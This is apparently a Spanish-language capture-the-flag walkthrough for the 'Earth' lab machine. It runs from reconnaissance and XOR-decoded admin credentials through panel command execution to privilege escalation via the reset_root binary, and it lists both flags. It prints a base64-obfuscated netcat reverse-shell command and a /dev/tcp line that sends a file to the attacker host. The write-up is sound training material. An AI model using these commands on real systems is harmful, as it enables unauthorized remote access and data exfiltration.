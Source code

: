 ## Primera Incursion
- **Arp-Scan**: Se encuentra exitosa mente la maquina vulnerable.
- **Nmap**: Se realiza un nmap y se encuentra servicios como
	- **22**, **80**, **443**.
- **Fuzzing**: Se hace fuzzing a la IP con HTTP y HTTPS, solo se encuentra un 403 de cgi-bin
## Segunda Incursion
La segunda incursion es cuando las formas superficiales de entrada no son suficientes
- **Invesitigacion del Certificado TLS**: se encuentra que el certificado TLS tiene dos nombres de dominio diferentes.
- **Se asignan los DNS al etc/host**: earth.local terratest.earth.local
- **Se encuentra:**
	- una imagen de la tierra.
	- dos campos, uno para escribir un mensaje y otro que lo encrypt con una key en pareciera ser hexadecimal.
- **Fuzzing**: se vuelve hacer fuzzing con ambas direcciones y con y sin certificado teniendo el mismo resultado con un 403 en cgi-bin pero ahora nos da que hay un panel de admin, y ademas nos arroja un robots en terratest.earth.local
	- http://earth.local/admin/login
	- https://terratest.earth.local/robots.txt
	fuzzing log:
	```
	+ http://earth.local/admin (CODE:301|SIZE:0) 
	+ http://earth.local/cgi-bin/ (CODE:403|SIZE:199) 
	+ https://terratest.earth.local/robots.txt
	```

## Tercera Incursion
En la tercera incursion ya tenemos base, y es en terratest, donde en robots encontramos un archivo .txt que es almacenado así `testingnotes.*` al averiguar que había ahí encontré el siguiente texto:
```
Notas sobre la prueba del sistema de mensajería segura:
*El uso del cifrado XOR como algoritmo debería ser seguro como se usa en RSA.
*La Tierra ha confirmado que ha recibido nuestros mensajes enviados.
*testdata.txt se utilizó para probar el cifrado.
*terra utilizada como nombre de usuario para el portal de administración.
Hacer:
*¿Cómo enviamos nuestras claves mensuales a la Tierra de forma segura? ¿O deberíamos cambiar las claves semanalmente?
*Es necesario probar diferentes longitudes de clave para proteger contra la fuerza bruta. ¿Cuánto tiempo debe tener la llave?
*Necesita mejorar la interfaz de mensajería y el panel de administración, actualmente es muy básico.

```

este texto nos aclara las siguientes cosas.
1. El cifrado que vimos en **Incursion dos** son de tipo XOR por lo que el resultado HEX se hacer una inversa.
2. existe un archivo testdata.txt que contiene un texto que se uso para probar la encryption.
3. terra es el nombre de usuario del portal de administración. (posible user SSH)
4. al ser un HTTP, las claves no se envían de forma segura atravez de la pagina, tendrá que hacer un wireshark?.

Probamos todos los mensajes encriptados en HEX pasados por XOR y encontré un mensaje cual se repite varias veces. `earthclimatechangebad4humans`, traducido seria el algo como el cambio climático de la tierra esta mal por los humanos.

Se hace la prueba en el panel de administración con usuario **terra** y contraseña **earthclimatechangebad4humans**, ambas credenciales son acertadas.

## Cuarta Incursion.
Una vez dentro del panel administrativo se desplegó un field cuya función es ejecutar código en el servidor.
**Datos:**
- **id**: uid=48(apache) gid=48(apache) groups=48(apache) 
- **whoami**: apache
- **ls home**: earth
- **find / -user root -perm /4000 2>/dev/null**: 
```
/usr/bin/at
/usr/bin/chage
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/reset_root
/usr/bin/sudo
/usr/bin/su
/usr/bin/umount
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/sbin/grub2-set-bootflag
/usr/sbin/mount.nfs
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
```

#### User flag!
**cd var; cd earth_web; cat user_flag.txt**: user_flag_3353b67d6437f07ba7d34afd7d2fc27d

## Quinta incursion
A este punto buscamos conquistar la maquina, por lo que se intentado una reverse shell de varias formas.
1) awk
2) bash
3) nc
pero sin éxito, esto ya que hacer forbidden al momento de establecer una conexión, hasta quise descargar con wget un script con una reverse shell.

Luego intente lo siguiente. ejecutar el código de una reverse shell nc lo mas pequeño posible en un base64,  cosa que dio resultado exitoso.

**Código inducido**

`echo 'bmMgMTAuMC4yLjE1IDQ0NDQgLWUgL2Jpbi9zaAo=' | base64 -d | bash`

**Posible usuario**: (cat etc/passwd)
earth:x:1000:1000::/home/earth:/bin/bash

**Posible punto de entrada**
en la cuarta incursion, se encontró que existe la posibilidad de ejecutar reset_root, este es un script que puede resetear las credenciales del usuario raíz y ademas contienen todas las contraseñas de shadow.

la ejecución desde la misma maquina falla, por lo que se examinara el script pasándolo por net cat
```
maquina atacante:
nc -lvnp 3333 > reset_root

maquina vulnerada:
cat /usr/bin/reset_root > /dev/tcp/12.0.2.6 3333
```

La lectura del archivo **reset_root** solo es posible mediante una herramienta como **ltrace**, por lo que se debe descargar la herramienta

la lectura de este archivo da el siguiente resultado.
```
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)      = 38
access("/dev/shm/kHgTFI5G", 0)                   = -1
access("/dev/shm/Zw7bV9U5", 0)                   = -1
access("/tmp/kcM0Wewe", 0)                       = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)      = 44
+++ exited (status 0) +++
```

el problema es que reset_root no encuentra los tres directorios, por lo que tendremos que crearlos.

una vez creado los directorios con touch.
ejecutamos su root y escribimos la password que reseteo que es Earth.

y finalmente tenemos root

root flag.
root_flag_b0da9554d29db2117b02aa8b66ec492e


